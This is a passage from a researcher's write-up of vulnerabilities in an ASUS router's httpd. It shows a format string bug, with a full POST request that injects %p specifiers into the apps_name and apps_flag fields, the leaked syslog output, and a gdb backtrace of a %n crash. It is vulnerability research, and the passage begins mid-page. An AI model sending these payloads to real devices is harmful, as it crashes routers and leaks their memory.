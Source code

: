 Obligatory screenshot:

![xss-1](/post/asus/images/xss.png)

Pretty simple really, hard to believe it was still there. Next, the format string.

## Format String Attack

Finding the XSS was fun, but what really had my gears turning was the crash in httpd. After fuzzing a little bit and crashing the app a couple times, I eventually figured out that these inputs, the same ones that suffer the XSS issues, were similarly vulnerable to classic C format string attacks.

I came to this conclusion when I started sending double encoded string format specifiers which caused the app to either crash or return weird shit in the syslog. After some testing I figured out that "%25d" and "%25p" would return ints and hex values, but sending a "%25n" would crash httpd. This is telling for a few reasons-- the int and hex values were probably memory, big ints as the memory addresses are being displayed as signed ints, and hex values because ["%p"](https://www.tutorialspoint.com/format-specifiers-in-c) (the whole pointer thing). The app crashing was unexpected, but in the case of segfaults from "%n" trying to write to a random spot in memory, that would make sense. So, it seemed like I was probably in business. The crash implied it was probably trying to write memory, but didn't have permissions to wherever the "%n" was pointing it, or that address was invalid.

Here's an example of what I saw when I first noticed the syslog reflections:

![syslog-1](/post/asus/images/syslog-reflected-memAddresses-1.png)

Check out the last bit there:
```
Feb 27 15:01:33 rc_service: httpd 786:notify_rc start_apps_install (nil)(nil)TEST (nil)TEST
Feb 27 15:01:39 rc_service: httpd 786:notify_rc start_apps_install (nil)(nil)TEST (nil)TEST0x707474680x383720640x6f6e3a360x796669740x2063725f
```

Here's the POST request:
```html
POST /apps_test.asp HTTP/1.1
Host: 192.168.1.200
Content-Length: 81
Origin: http://192.168.1.200
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Referer: http://192.168.1.200/apps_test.asp
Cookie: clickedItem_tab=0; asus_token=eWJ3prjeLpIOIiR8pbFOounNRuUpPqg

apps_action=install&apps_name=%25p%25pTEST&apps_flag=%25pTEST%25p%25p%25p%25p%25p
```

Obviously, that's an issue. First off, lack of error checking is causing a denial of service by crashing the app. Secondly, there's a memory leak. Third, not proven yet, but we can probably write to memory... which would be dope.

There are a couple methods we could use to track down what exactly is crashing / what causes the crash. I [uploaded a static gdb](https://github.com/therealsaumil/static-arm-bins), and triggered a crash while attached:
```bash
0x405494cc in select () from /lib/libc.so.0
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x40569820 in _store_inttype () from /lib/libc.so.0
(gdb) bt
#0  0x40569820 in _store_inttype () from /lib/libc.so.0
#1  0x4056adc0 in _vfprintf_internal () from /lib/libc.so.0
#2  0x405683c8 in vsnprintf () from /lib/libc.so.0
#3  0x40561528 in vsyslog () from /lib/libc.so.0
```